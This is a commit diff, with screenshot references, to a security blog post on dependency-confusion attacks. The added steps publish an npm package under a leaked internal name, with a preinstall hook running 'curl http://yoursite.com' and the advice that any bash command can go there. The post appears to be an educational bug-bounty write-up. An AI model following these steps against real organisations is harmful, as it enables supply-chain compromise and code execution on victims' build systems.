

Before and after one commit to 0xsapra/website, a Jekyll site: the page built from _posts/2021-06-01-Exploiting-Dependency-Confusion.md, in a window 1280 px wide and 1400 px high, scrolled down 6461 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7091 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
added-last-step

```diff
--- a/_posts/2021-06-01-Exploiting-Dependency-Confusion.md
+++ b/_posts/2021-06-01-Exploiting-Dependency-Confusion.md
@@ -118,9 +118,31 @@
 
 ### Step 5
 
-Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE).
+Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain
 
+* git clone https://github.com/0xsapra/dependency-confusion-expoit
+* cd dependency-confusion-expoit
+* Edit package.json following fields
+    * Change module name `"name": "ez-get-url-params",` to `"name": "xss-finder-0xsapra",`.
+    * Change Version `"version": "1.0.0",` to `"version": "1.0.0",`
+        * As you can see, leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use the same version
+    * Change `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"`
+        * preinstall is the command that gets executed. use any bash command you want here
+    ![](/website/assets/images/dep-conf-10.png)
 
+* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from https://zellwk.com/blog/publish-to-npm/ . Here's the same steps:
+    * Login/Signup into npm from https://www.npmjs.com/signup
+    * Open terminal/bash on login into npm from terminal using `npm login` command
+    ![](/website/assets/images/dep-conf-11.png)
+    * Run following in terminal `npm publish .` and it will publish `xss-finder-0xsapra` to npm
+    ![](/website/assets/images/dep-conf-12.png)
+* You can now find the package uploaded on https://npmjs.com (https://www.npmjs.com/package/xss-finder-0xsapra)
+
+### Step 6
+
+Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).
+
+![](/website/assets/images/dep-conf-13.png)
 
 ## Conslusion
 
```
Also changed, not shown: assets/images/dep-conf-10.png (added), assets/images/dep-conf-11.png (added), assets/images/dep-conf-12.png (added), assets/images/dep-conf-13.png (added).
